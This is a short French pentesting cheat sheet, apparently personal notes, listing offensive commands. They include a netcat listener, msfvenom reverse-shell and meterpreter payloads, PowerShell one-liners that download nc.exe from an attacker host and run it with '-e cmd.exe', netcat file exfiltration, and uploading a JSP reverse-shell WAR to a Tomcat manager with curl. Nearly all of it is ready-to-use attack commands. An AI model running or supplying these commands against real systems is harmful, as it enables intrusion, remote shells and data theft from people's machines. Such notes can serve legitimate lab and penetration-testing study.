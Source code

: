 ## Ecouter sur un port
```bash
$ nc -lvnp {port}
```

## Pour les reverses shell (en normal ou meterpreter)
Pentestmonkey propose des reverses shell en plusieurs langage :</br>
<a>http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet</a></br>
Sinon un reverse classique pour meterpreter (pour prendre la main sur msf) :
```bash
$ msfvenom -p {payload} lhost={local_ip_address} lport={local_port} -f {format} -o {nom}
```
&nbsp;exemple payload : linux/x86/meterpreter/reverse_tcp ou android/meterpreter/reverse_tcp
&nbsp;exemple format : raw / elf / war

## Transfert de fichier 
### Attaquant voulant partager nc.exe
Nous voulons partager nc.exe 
```bash
$ cd ~/Desktop/ # On va là où les fichiers que l'on veut partager sont.
$ python3 -m http.server {port_local}
```
De base le port est 8000 si on précise pas de port_local.
### Target récupérant le nc.exe
Sur un client Windows (le télécharger et exécuter) :
```bash 
powershell -c (New-Object Net.WebClient).DownloadFile('http://{adresse_ip}:{port_local}/nc.exe', 'nc.exe')
powershell.exe Start-Process .\nc.exe -ArgumentList '{LHOST} {LPORT} -e cmd.exe'
```
Sur un client Linux :
```bash
$ curl 
$ wget http://{adresse_ip}:{port_local}}/nc.exe
```
### Envoyer un fichier via Netcat
```bash
$ cat something.zip | netcat {ip_client} {port_client}
```
### Recevoir un fichier via Netcat
```bash
$ nc -l -p {port} -q 1 > something.zip < /dev/null
```

### Upload shell sur tomcat
```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f war > shell.war
$ curl -u 'username':'password' -T shell.war 'http://{target}/manager/text/deploy?path=/mon_shell'
$ curl -u 'username':'password' http://{target}/mon_shell/
```

## Penser aux CVE
### Recherche de vuln
```bash 
$ searchsploit {keyword}
$ searchsploit -w {keyword}
```

## Forward de port
Pour le forward de port remote, local et dynamique, voir le document word.
